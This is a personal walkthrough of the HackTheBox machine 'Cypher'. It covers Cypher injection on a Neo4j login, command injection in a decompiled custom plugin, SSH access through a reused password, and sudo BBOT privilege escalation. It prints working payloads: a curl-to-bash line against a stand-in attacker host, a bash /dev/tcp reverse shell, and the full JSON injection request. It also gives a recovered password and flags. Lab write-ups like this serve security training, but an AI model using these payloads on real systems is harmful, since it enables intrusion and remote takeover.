

# Enumeration

Cypher is the query language for neo4j

nmap finds a web server on port 80 and a ssh on port 22

<figure>

<figcaption
aria-hidden="true">Pastedimage20250503203659.png</figcaption>
</figure>

Opening the web server

It has a login page

Throwing that into burpsuite and trying some test credentials and injections.

<figure>

<figcaption
aria-hidden="true">Pastedimage20250503204226.png</figcaption>
</figure>

The classic creds don't work (it is a medium box), trying some other datatypes

However, confusing the string delimiter by adding a single quote ' breaks the parsing and reveals:

It lets un-sanitized inputs through after " ' "
(The json formatter used in the http request ignores the single quote, but the backend parser does not and sends back -- something)

Looks like a python backend running a neo4j database, Cypher is the scriping language for that).
\#### injecting:
`{ "username":"'123", "password":"admin" }`
gives some option for expected commands:
`{`message: Invalid input '123': expected an expression, 'FOREACH', 'ORDER BY', 'CALL', 'CREATE', 'LOAD CSV', 'DELETE', 'DETACH', 'FINISH', 'INSERT', 'LIMIT', 'MATCH', 'MERGE', 'NODETACH', 'OFFSET', 'OPTIONAL', 'REMOVE', 'RETURN', 'SET', 'SKIP', 'UNION', 'UNWIND', 'USE', 'WITH' or <EOF>
`(line 1, column 55 (offset: 54))`"MATCH (u:USER) -\[:SECRET\]-\> (h:SHA1) WHERE u.name = ''123' return h.value as hash"
}\`

#### Returning too much information:

The backend runs this query on the input data:
`MATCH (u:USER) -[:SECRET]-> (h:SHA1) RETURN u.name, h.value Which does the following: 1. **`MATCH (u:USER) -\[:SECRET\]-\> (h:SHA1)`**:       This searches for all paths in the Neo4j graph where a node labeled`USER`is connected to a node labeled`SHA1`via a relationship of type`SECRET`. 2. **`RETURN u.name, h.value`**:       For each match, it returns:     -`u.name`: the value of the`name`property on the`USER`node.     -`h.value`: the value of the`value`property on the`SHA1\` node---likely a SHA-1 hash.

This returns the u.name and the hash h.value if u is connected to h via a SECRET relationship.

### Attempting a foothold using injection

#### Pentester tips for Cypher injection

https://pentester.land/blog/cypher-injection-cheatsheet/

Tried all sorts of things.... conclusion is that there is an injection vulnerability:
Trying numerous payloads (GPT enhanced) has revealed that code gets executed on the backend, however a suitable payload did not immediately materialize... GPT suggested to see if 'apoc' is enabled, giving possibility for a reverse shell - it did not seem to be possible

A known vulnerability with Cypher is an add-on library for Neo4 called "APOC"
(Awesome Procedures on Cypher) that provides hundreds of procedures and functions adding a lot of useful functionality. apoc: https://neo4j.com/labs/apoc/

Sounds vulnerable....

However (trying this chatGPT generated payload sugestion):
`{   "username": "' CALL apoc.export.csv.query(\"MATCH (n) RETURN n\", \"/tmp/dump.csv\", {}) YIELD file RETURN file AS hash //",   "password": "123" }`

Gives a "no apoc" installed:

# Changing approach

## Url enumeration

Threw the web url into dirbuster with /usr/share/wordlists/simplelist:

Revealed some new paths:
/demo
/testing

### /demo

gives a 404 and returns a page with some json:

### /testing

returns a 200 with a page with a file to download:

downloading and unpacking:

And lo and behold - the aforementioned APOC mentioned!
APOC (Awesome Procedures on Cypher) https://neo4j.com/labs/apoc/

# Enumerating the files

## .xml

The only immediately readable file is pom.xml
threw the pom.xml into GPT ..

**Maven** is a **build automation and dependency management tool** for Java projects.
\### 🧠 Why This Matters

You now know:
- This server runs **a custom Neo4j plugin**  
- It's a **custom APOC-like extension** (as hinted by the name)
- That plugin could have **dangerous procedures exposed to Cypher**
- These procedures are written in Java and live in a `.jar` file in the `plugins/` directory  
\### 💥 Pentest Implication

If you're exploiting Neo4j via Cypher injection, and you have access to this plugin, then:

- The server is likely **running your inputs through that custom code**
- If that plugin is vulnerable (e.g. no input sanitization), **RCE is possible**
- If you can upload your own malicious `.jar`, you own the box

## De-compiling the java files

jd-gui https://java-decompiler.github.io/ was used to look at the .class files in the /testing/ endpoint.
The files were then GPT'ed:

### HelloWorldProcedure.class

#### Security/Pentest Implications

- **Harmless**: This procedure is safe --- no input execution, no DB write, no external calls.
- **Useful for testing**: If this runs, you can confirm that the Neo4j instance allows custom procedures.
- **Custom Procedures Are Enabled**: This means other procedures could be dangerous depending on their implementation.

### CustomFunctions.class

This custom Neo4j procedure `custom.getUrlStatusCode` is **vulnerable to command injection** --- and **can be used for Remote Code Execution (RCE)**.

------------------------------------------------------------------------

### 🔥 What It Does (Step-by-Step)

1.  **Input Validation (Weak):**
    java
    CopyEdit
    `if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))   url = "https://" + url;`
    - Tries to force input to start with HTTP/HTTPS.  
    - But this doesn't block shell injection --- the `url` is still inserted into a shell command unsanitized.  
2.  **Shell Command Built:**
    java
    CopyEdit
    `String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };`
    - **Raw user input (`url`) is passed directly into `/bin/sh -c`** --- classic injection vector.  
3.  **Command Executed:**
    java
    CopyEdit
    `Process process = Runtime.getRuntime().exec(command);`
    - Runs the command.  
    - Reads STDOUT and STDERR.  
4.  **Returns the curl status code:**
    java
    CopyEdit
    `return Stream.of(new StringOutput(statusCode));`
    - Returns it to Cypher.

### 🔓 Security Impact

#### ✅ If user input is:

cypher
CopyEdit
`CALL custom.getUrlStatusCode("http://example.com")`
→ Runs:
sh
CopyEdit
`curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://example.com`
\#### ❌ But if user input is:

cypher
CopyEdit
`CALL custom.getUrlStatusCode("127.0.0.1; curl http://attacker/payload.sh | bash")`

→ Runs:
sh
CopyEdit
`curl -s -o /dev/null --connect-timeout 1 -w %{http_code} 127.0.0.1; curl http://attacker/payload.sh | bash`

💥 **RCE achieved.** Shell executes attacker's script.

### 🛠️ How to Exploit

If Neo4j allows this procedure to be called via Cypher injection or direct access, then:
- You can execute arbitrary shell commands.
- You can **fetch and run a reverse shell**, drop payloads, or exfiltrate files.
Example reverse shell payload:
cypher
CopyEdit
`CALL custom.getUrlStatusCode("127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'")`
Make sure your listener is running on `10.10.14.13:4444`.

------------------------------------------------------------------------

### 🛡️ Defensive Takeaway

This code violates secure coding principles:
- It **passes unsanitized input to `/bin/sh`**
- It **mixes input validation with command construction**
- It **trusts URLs that may contain shell metacharacters**

# Generating a injection payload

-for Neo4j cypher using the custom.getUrlStatusCode() function which runs a shell directly

Following payload using the getUrlStatusCode using ChartGPT gives a reverse shell by calling back to netcat on my kali vm on 10.10.14.13:4444

    CALL custom.getUrlStatusCode("127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1'")

into this http POST request json payload (which can be sent using burpsuite):
`json{   "username": "admin' RETURN h.value AS hash UNION CALL custom.getUrlStatusCode(\"127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'\") YIELD statusCode RETURN statusCode AS hash //",   "password": "x" }`

This gives a reverse shell - yay'

# Initial foothold

Immediately cd'ed into home desktop and fount user.txt - however..

darn it..
However.. there is also a yaml file - which has a password:

\`cU4btyib.20xtCMCXkBmerhK

## Password trying...

A typical theme with HTB boxes seems to be stumbling across credentials and trying them in different places

Trying that password for the graphasm user - and it hangs (assuming that is a good sign, as it was displaying 'wrong password' when trying the usual suspects..)

# Getting user access

Trying to ssh into the box as grpahasm - works

And user thereby owned!
\`04fc585ff855e37e6a7dfaa8350cb2a4

# Privilege Escalation

## Poki'n around

Running `sudo -l` shows: sudo privilege on `/usr/local/bin/bbot`
\## BBOT
which is a dir fuzzing osint tool apparently installed on the box and graphasm has sudo execution privileges

(Bighuge BLS OSINT Tool) : https://github.com/blacklanternsecurity/bbot

Furthermore internet search shows BBOT has known vulnerabilities
\### BBOT 2.1.0 - Local Privilege Escalation via Malicious Module Execution
https://seclists.org/fulldisclosure/2025/Apr/19

BBOT allows execution of custom Python modules during OSINT scans. When
configured as a sudo-executable (e.g., via NOPASSWD), a malicious module
can escalate privileges via the `setup()` function.

# Exploit

Walk-through on the bbot vulnerability here:
https://github.com/Housma/bbot-privesc

Definitely .....

git cloned the repo with two files and scp'ed them to the box:

    scp preset.yml systeminfo_enum.py graphasm@cypher.htb:
    graphasm@cypher.htb's password: 
    preset.yml                              100%   83     1.0KB/s   00:00    
    systeminfo_enum.py                      100%  523     6.1KB/s   00:00   

\`sudo /usr/local/bin/bbot -t no.com -p /home/graphasm/preset.yml --event-types ROOT

Hooyah

Flag under root
781ffa938d9654d043dc5b350fa945da

# To-do's

Deep dive into how the exploit on BBOT works
